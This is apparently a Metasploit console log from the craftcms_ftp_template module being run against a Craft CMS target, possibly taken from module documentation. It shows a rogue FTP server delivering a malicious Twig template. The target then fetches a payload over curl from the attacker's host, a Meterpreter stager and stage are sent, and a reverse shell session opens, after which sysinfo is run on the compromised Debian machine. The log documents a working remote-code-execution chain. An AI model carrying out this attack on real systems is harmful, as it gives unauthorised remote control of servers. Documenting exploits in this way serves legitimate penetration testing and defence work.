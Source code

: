```bash
[*] -> 331 Username ok, send password.
[*] on_client_command_pass
[*] -> 230 Login successful.
[*] on_client_command_type
[*] -> 200 Type set to: Binary.
[*] on_client_command_size
[*] -> 213 154
[*] on_client_command_epsv
[*] -> 502 EPSV command not implemented.
[*] on_client_command_retr
[*] -> 150 Opening data connection for /default/index.twig
[*] -> 226 Transfer complete.
[*] on_client_command_quit
[*] -> 221 Goodbye.
[*] Client 172.26.0.2 requested /LoPlnjEpeOexZNVppn6cAA
[*] Sending payload to 172.26.0.2 (curl/7.88.1)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.26.0.2
[*] Meterpreter session 14 opened (192.168.1.36:4444 -> 172.26.0.2:59546) at 2025-01-10 17:07:39 +0100

msf6 exploit(linux/http/craftcms_ftp_template) > sessions 14
[*] Starting interaction with 14...
meterpreter > sysinfo
Computer     : 172.26.0.2
OS           : Debian 12.8 (Linux 5.15.0-130-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
[*] Waiting for FTP client connections...
[*] Shutting down FTP service...
[*] Server stopped.
```
